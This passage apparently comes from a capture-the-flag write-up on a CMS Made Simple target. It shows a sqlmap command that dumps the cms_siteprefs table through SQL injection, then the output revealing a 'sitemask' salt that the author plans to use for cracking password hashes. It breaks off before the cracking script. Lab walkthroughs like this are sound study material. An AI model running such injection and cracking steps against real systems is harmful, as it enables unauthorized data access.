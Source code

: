 
It is connecting to the DB and pulling `[prefix]siteprefs`. Given that
all the tables in that DB start with `cms_`, that seems like a
reasonable place to start.

When I dump that table with
`sqlmap -r logs.php.request --dump -D cmsmsdb -T cms_siteprefs`, there
are 37 rows, but the first one is what I need:



    Database: cmsmsdb
    Table: cms_siteprefs
    [37 entries]
    +---------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | sitepref_name                               | sitepref_value                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
    +---------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | sitemask                                    | 6c2d17f37e226486                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
    ...[snip]...
    +---------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+



The `sitemask` is "6c2d17f37e226486".

#### Crack with Python

I'll write a quick Python script to crack the hashes with the sitemask:


